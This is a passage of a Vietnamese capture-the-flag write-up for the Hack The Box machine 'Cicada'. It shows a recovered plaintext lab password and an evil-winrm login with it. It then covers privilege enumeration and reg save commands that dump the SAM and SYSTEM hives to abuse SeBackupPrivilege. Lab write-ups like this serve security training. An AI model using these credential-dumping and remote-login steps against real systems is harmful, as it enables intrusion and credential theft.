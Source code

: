 ```
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
`emily.oscars:Q!3@Lp#M6b*7t*Vt`

## evil-winrm
Với credential trên ta sẽ truy cập vào được máy và lấy được user flag
```
┌──(kali㉿kali)-[~/Downloads/HTB_machines/cacida]
└─$ evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

<SNIP>
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Des type user.txt
180f476a28fdb44a4*******
```

# Root flag
## whoami /priv
Sử dụng `whoami /priv` mình thấy có có 1 quyền là `SeBackupPrivilege` có thể khai thác được qua [bài viết này](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) 
```
PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
## Windows Privilege Escalation: SeBackupPrivilege
```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
![image](https://hackmd.io/_uploads/r18aLU2C0.png)
